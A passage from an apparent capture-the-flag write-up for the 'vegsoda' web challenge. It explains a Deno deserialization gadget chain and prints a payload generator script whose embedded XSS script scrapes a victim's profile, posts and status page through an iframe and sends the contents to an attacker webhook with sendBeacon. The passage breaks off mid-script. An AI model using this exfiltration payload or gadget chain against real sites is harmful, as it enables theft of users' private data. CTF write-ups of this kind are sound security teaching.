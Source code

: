 So `Log` calls `Vio#validate`, and `Vio` calls our choice of either `Warning#assign` or `Warning#resolve`. But given that we have arbitrary input control over what gets deserialized and that [types are really just a suggestion in Deno](https://deno.com/blog/v1.23#no-type-checking-by-default), we can probably just replace the `warning` with whatever we want!

So what type defines either `assign` or `resolve`, applies itself to the given user, and conveniently doesn't escape its contents?

`Soda`, of course!

```ts
// in models/classes/Soda.ts
resolve(user: User){
    this.dest = user.getUsername();
    user.pushToSodas(this);
}
```

Given all of the above, we can now write our payload generator script...

```ts
// payload-gen.ts version 1 (spoiler alert: this has bugs!)

// @ts-ignore  
import { Serializer } from "https://deno.land/x/superserial/mod.ts";
import Post from './Post.ts';
import Log from './Log.ts';
import Soda from './Soda.ts';
import Vio from './Vio.ts';
import Warning from './Warning.ts';

const serializer = new Serializer({ classes: {Post, Log, Vio, Soda, Warning} });
const UUID = "e3586424-e765-49c4-8556-57377aed08f3";

const note = `
<script>
    let ROOT = "https://vegsoda-web.2023.ctfcompetition.com/";
    let load = (i, s) => { i.src = s; return new Promise(r => i.onload = () => { i.onload = null; r(i.contentWindow.document.body.innerHTML) }) };
    let yoink = (s) => navigator.sendBeacon("[webhook]?q=" + encodeURIComponent(JSON.stringify(s)));
    (async () => {  
        let i = document.createElement("iframe");
        document.body.appendChild(i);
        let profile = await load(i, ROOT + "profile");
        let posts = profile.match(/(?<=<li><a class="sodalink" href="\\/post\\/).*?(?=">)/gm);
        let sodas = profile.match(/(?<=<li><a class="sodalink" href="\\/sodas\\/).*?(?=">)/gm);
        yoink([posts, sodas]);
        for (let p of posts) {
            yoink((await load(i, \`\${ROOT}post/\${p}\`)).match(/(?<=<h2 class="page-section-heading text-center text-uppercase text-secondary mb-0">).*?(?=<\\/h2>)/gm));
        }
        for (let s of sodas) {
            yoink((await load(i, \`\${ROOT}sodas/\${s}\`)).match(/(?<=<p class="masthead-subheading font-weight-light mb-0">).*?(?=<\\/p>)/gm));
        }
        yoink(await load(i, "https://vegsoda-web.2023.ctfcompetition.com/status"));
    })()
</script>
`

let stopYouViolatedTheLaw = {
    id: UUID,
    userid: "arcblroth",
    level: "XSS",
    warning: Soda.getSoda(
```